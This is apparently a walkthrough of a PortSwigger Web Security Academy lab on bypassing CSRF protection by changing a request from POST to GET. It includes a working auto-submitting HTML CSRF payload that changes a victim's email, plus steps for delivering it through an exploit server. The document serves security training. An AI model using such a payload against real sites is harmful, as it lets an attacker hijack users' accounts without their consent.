









[Source](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)
## Task
The email address change functionality in this lab is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies protections to certain types of requests.
To solve the task, use your exploit server to host an HTML page that uses a CSRF attack to change the email address of the user viewing the page.
You can log in to your own account using the following credentials: `wiener:peter`.
## Solution
Go to the task site



Log in as `wiener`



Change the user's email and intercept the request via `Burp Suite`



We see that the `POST` request contains a `csrf` token. If we change this token, the request will be rejected.



Right-click and select `Change request method` to change the request from `POST` to `GET`






After that, right-click and then `Engagement tools > Generate CSRF PoC`. Change the email in the request and copy the HTML code



```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a66007f0317811990725948005b001d.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="aYT9ZuxCiXqw41kVk2m0ry0JEUfPz0SQ" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Next, go to `Exploit Server` and paste that HTML code into the `Body` field.



After that, click `Store` and `Deliver exploit to victim`


